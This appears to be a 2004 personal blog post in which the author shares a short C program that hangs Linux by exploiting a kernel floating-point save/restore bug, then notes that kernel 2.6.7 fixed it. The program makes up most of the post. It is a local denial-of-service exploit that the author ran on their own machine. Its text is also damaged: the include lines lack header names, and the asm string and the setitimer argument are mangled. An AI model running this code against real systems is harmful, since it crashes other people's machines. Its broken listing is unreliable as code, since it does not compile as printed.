 ```yaml
---
date: 2004-06-29 20:56:12
title: less than 30 lines of code that crashed linux
tags: Linux Unix QNX
---
```

yea yea, we all know about that stupid linux kernel bug that would allow a
program to crash the operating system.

it affected the floating point unit or something...  
as soon as I read about it, I tried it on my machine the night I got home,
and... it does hang my computer quite well

~~~ {.c}
#include 
#include 
#include 
 
static void Handler(int ignore)
{
    char fpubuf[108];
    __asm__ __volatile__ ("fsave %0n" : : "m"(fpubuf));
    write(2, "*", 1);
    __asm__ __volatile__ ("frstor %0n" : : "m"(fpubuf));
}
 
int main(int argc, char *argv[])
{
    struct itimerval spec;
    signal(SIGALRM, Handler);
    spec.it_interval.tv_sec=0;
    spec.it_interval.tv_usec=100;
    spec.it_value.tv_sec=0;
    spec.it_value.tv_usec=100;
    setitimer(ITIMER_REAL, &spec;, NULL);
    while(1)
        write(1, ".", 1);
    
    return 0;
}
~~~

last weekend I finally took the time to update my kernel to 2.6.7...  
after applying all the patches I wanted myself, I sort of have a working kernel
but no bootsplash :(

no cool load screen, but it did get rid of the above kernel bug...  
I'll just wait for new -love to come out I guess.
